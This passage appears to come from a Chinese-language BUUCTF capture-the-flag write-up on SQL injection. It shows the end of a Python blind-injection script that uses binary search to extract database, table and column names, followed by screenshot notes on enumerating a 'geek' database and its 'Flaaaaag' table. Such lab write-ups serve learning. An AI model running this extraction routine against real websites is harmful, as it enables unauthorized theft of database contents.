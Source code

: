 ```
            time.sleep(0.1)
            mid = (low + high) // 2
            tmp_payload = payload.format(i=i,mid=mid)
            if boolean_query(url,tmp_payload):
                low = mid + 1
            else:
                high = mid
        if low == 32:  # ASCII 32 = 空格，表示结束
            break
        name += chr(low)
        print(chr(low),end="")
    return name

payload = payloads[x]
length = get_length(url,payload)
result = get_name(url,length,payload)
print(f"\n[+] Found : {result}")
```

先跑所有数据库名

![](/img/BUUCTF_SQL刷题/ZWFubIQemoP1duxlppvcvHzSnrd.png)

然后跑出 geek 库的表名

![](/img/BUUCTF_SQL刷题/Uuffb5xTxo7EsbxoYWfc0iy7nRc.png)

然后跑出 geek 库 Flaaaaag 表的列名

![](/img/BUUCTF_SQL刷题/Udu9bk5OcoclUxxS6BYcWykInmc.png)

然后发现被骗了
